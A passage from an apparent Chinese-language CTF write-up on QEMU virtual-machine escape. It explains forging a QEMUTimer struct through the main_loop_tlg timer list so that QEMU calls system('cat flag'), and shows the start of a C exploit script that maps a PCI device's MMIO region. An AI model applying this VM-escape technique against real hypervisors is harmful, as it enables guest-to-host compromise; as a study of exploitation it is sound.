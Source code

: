 在 bss 段有一个数组 `main_loop_tlg[4]`，保存了一些 `QEMUTimerList` 结构体指针，每个 `active_timers` 都指向一个由 `QEMUTimer` 结构体组成的链表。qemu 会遍历这些 `QEMUTimerList` 来检查所有 `QEMUTimer` 有没有超时并调用它们的 callback 函数（也就是调用 `timer->cb(timer->opaque)`，相关源码见[qemu-timer.c - util/qemu-timer.c - Qemu source code (v4.2.1) - Bootlin](https://elixir.bootlin.com/qemu/v4.2.1/source/util/qemu-timer.c#L588)）。

因此，我们可以在通过 `main_loop_tlg` 泄露某个 timerlist 的地址后，劫持它的 `active_timers` 指针并伪造一个 `QEMUTimer` 结构体，从而控制程序调用函数以及参数。

伪造 `QEMUTimer` 时，可以这样写：

```c
timer->expire_time = 0x114514;
timer->timer_list = 对应的timer_list地址;
timer->cb = system@plt;
timer->opaque = "cat flag";
timer->next = null;
timer->scale = 0x100000000;
```

这样程序就会在 0x114514 纳秒之后调用 `system("cat flag")`。

该方法主要参考了：
- [QEMU VM Escape - bi0s](https://blog.bi0s.in/2019/08/13/Pwn/VM-Escape/2019-07-29-qemu-vm-escape-cve-2019-14378/)
- [CVE-2020-14364 - xtxtn's Blog](https://xtxtn.github.io/2023/10/11/CVE-2020-14364/#%E4%BF%AE%E6%94%B9time-list)

### EXP 脚本

没有在在线环境下试过这个脚本，不过猜测在线问题不大\=\=。

```c
#define _GUN_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>

unsigned char* mmio_mem;
uint32_t mmio_read(uint64_t addr)
{
    return *((uint32_t *)(mmio_mem + addr));
}
uint32_t mmio_write(uint64_t addr, uint64_t value)
{
    return *((uint32_t *)(mmio_mem + addr)) = value;
}

uint64_t buffer_write(uint64_t index, uint32_t value)
{
    return *((uint64_t *)(mmio_mem + 32)) = (index<<32) | value;
}


int main(int argc ,char **argv, char **envp)
{
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd < 0){
        puts("open mmio failed");
        exit(-1);
    }
```
